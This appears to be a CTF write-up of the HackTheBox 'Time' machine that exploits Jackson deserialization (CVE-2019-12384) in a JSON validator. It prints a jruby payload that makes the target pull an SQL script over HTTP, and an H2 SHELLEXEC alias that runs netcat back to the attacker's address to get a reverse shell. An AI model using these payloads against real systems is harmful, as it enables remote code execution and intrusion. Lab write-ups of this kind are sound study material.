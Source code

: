 ```yaml
---
title: "Time"
author: "Me"
date: "March 07, 2021"
output: html_document
---
```


# Time

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: medium (4.1/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_time_desc.png){: height="250px" width = "280px"}
</div>

**Tools:** ?\\
**Techniques:** Exploit tweaking\\
**Keywords:** JSON, Jackson, serialization/deserialization\\


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

As usual, let's perform a nmap scan with the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan.

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_time_nmap.png)
</div>

We see SSH and a web server running. SSH is rarely if ever exploitable at first, so we don't have many choices on where to begin.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

While we have a look at the web page, let's launch *dirb* to look for potential interesting directories:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_time_dirb.png)
</div>

Let's look at the main page:

<div class="img_container">
![site web]({{https://jsom1.github.io/}}/_images/htb_time_site.png){: height="320px" width = "550px"}
</div>

Dirb found a few directories, but we cannot access any of them. The page appears to contain an online app that beautify and validate json. Let's try to beautify the following JSON POST request syntax :

```
{
"username": "admin",
"password": "admin",
"validation-factors": {
"validationFactors": [
{
"name": "remote_address",
"value": "127.0.0.1"
}
]
}
}
```

<div class="img_container">
![beautify]({{https://jsom1.github.io/}}/_images/htb_time_beautify.png){: height="320px" width = "550px"}
</div>

It seems to work. Let's copy and paste the output and try to validate it:

<div class="img_container">
![validate]({{https://jsom1.github.io/}}/_images/htb_time_validate.png){: height="320px" width = "550px"}
</div>

For some reason it fails, but we don't really know what it's doing. By trying the following random basic GET request:

````
GET /articles?include=author HTTP/1.1
````
We get the following error message: *validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'GET': was expecting ('true', 'false' or 'null')*. I tried many other commands, and they all returned a very similar error containing *com.fasterxml.jackson*. While we investigate this error, let's start a full TCP scan as well as un UDP scan to make sure there's not another open port and that we're on the right track. The command for the UDP scan is the following:

````
sudo nmap -sV -sU 10.10.10.214
````
And the full TCP one is:
````
sudo nmap -sV -sC -p 1-65535 10.10.10.214
````
UDP scans are way slower than TCP scans, so it is going to take some time. The TCP scan finishes in a few seconds and doesn't bring anything new. After a while, we see the UDP scan doesn't reveal anything either.\\
By googling the error we saw previously, I found a StackExchange describing a similar problem:

<div class="img_container">
![StackExchange]({{https://jsom1.github.io/}}/_images/htb_time_stack.png){: height="320px" width = "550px"}
</div>

The person gives a link and mentions the three CVEs we see in the image below:

<div class="img_container">
![CVE]({{https://jsom1.github.io/}}/_images/htb_time_cve.png){: height="320px" width = "550px"}
</div>

There is however no Metasploit module linked to any of those CVEs, and I don't really know what to do from there. Looking at other resources on the internet, it seems that this vulnerability is caused by an **insecure deserialization**. Serialization is the process of converting a an object, such as a Java object, from a programming language to a format that can be stored in a database or sent over the network. Desrialization is the opposite process.\\
Insecure deserialization happens when an attacker is able to manipulate the serialized object, eventually leading to DoS, authentication bypass or RCE. 

From what I understand in our case, we submit a JSON object to the application, and this latter serializes it before sending it to the server. This serialized object is then desrialized and "executed". The idea could then be to embed our own malicious code in the JSON object we submit to the application.

After a long time of researching, I found a Github repo that looks promising: https://github.com/jas502n/CVE-2019-12384. The explanations are kind of cryptic, but fortunatly there is a link at the bottom of the README on which the repo is based. The authors of the article analyzed an application which used the Jackson library for deserializing JSONs. They show how an attacker can leverage the deserialization to gain remote code execution, and that seems to be what we want to achieve.\\
It is required to download various scripts and libraries, but fortunately the Github repo contains everything we need. Let's clone it on Kali to have what we need:

<div class="img_container">
![github clone]({{https://jsom1.github.io/}}/_images/htb_time_git.png){: height="320px" width = "550px"}
</div>

And we're ready to follow the steps given in the article. Because this might be the wrong exploit (there are many of them), I'll first try to "run it blindly" so that I don't spend too much time on it in case it doesn't work. If it works, I'll take some time to read and understand how it works. The first part of the article shows how to perform a SRRF. SSRF stands for Server-Side Request Forgery, which is a technique that consists of inducing the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing. We could typically use that to make a connection back to ourselves. The command in the following:
````
jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:\"}]"
````
It has to be adapted to work on my machine as follows:

<div class="img_container">
![1st command]({{https://jsom1.github.io/}}/_images/htb_time_jruby.png)
</div>

Note that I fitered the output because there were way too many lines. Among other things, the script *test.rb* deserializes and serializes a polymorphic Jackson object passed to jRuby as JSON. To see the result, we should set up a netcat listener to catch the reverse connection. However it doesn't work, and I'm not going to try to understand why for now because there is a more promising part in the article: "Enter the Matrix: From SSRF to RCE". What we have to do is serve the file *inject.sql* through a http server and run the application with the following command:

````
jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}]"
````

So let's try that. We start a web server with the following command:

````
sudo python -m SimpleHTTPServer
````
And we execute the command:
<div class="img_container">
![2nd command]({{https://jsom1.github.io/}}/_images/htb_time_jruby2.png)
</div>

We see the file was not found, however we see the request on our web server:

<div class="img_container">
![Request]({{https://jsom1.github.io/}}/_images/htb_time_request.png)
</div>

I thought I had to serve the file in the web root directory (*/var/www/html*), but browsing at http://localhost:8000 shows that the request looks for the file in /home/kali. Let's copy the file there and try again. And it worrks! The script *inject.sql* writes the output of the *id* command into a file called *exploited.txt*. We can see this script as well as the content of the created file and the successful request below:

<div class="img_container">
![Request 200]({{https://jsom1.github.io/}}/_images/htb_time_reqok.png)
</div>

<div class="img_container">
![exploited.txt]({{https://jsom1.github.io/}}/_images/htb_time_exploited.png)
</div>

From there, it should be fairly easy to get a reverse shell. We will modify the *inject.sql* script so that it connects back to us:

````
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('nc -nv 10.10.14.8 4444')
````
Instead of 'id > exploited.txt' we simply execute 'nc -nv 10.10.14.8 4444', which will connect back to our machine (the IP was obtained with *sudo ifconfig tun0*) on port 4444. We set up a netcat listener and launch the script:

<div class="img_container">
![reverse shell]({{https://jsom1.github.io/}}/_images/htb_time_revsh.png)
</div>

We can also get a bind shell by replacing the command with 'nc -nlvp 4444' and then we connect to it with *sudo nc -nv 127.0.0.1 4444*. For some reason, both those shells are unstable. However, the PoC works and we must now try to make it work against 10.10.10.214. One way to do that is by trial and error and intercepting the requests and responses with Burp.



<ins>**My thoughts**</ins>

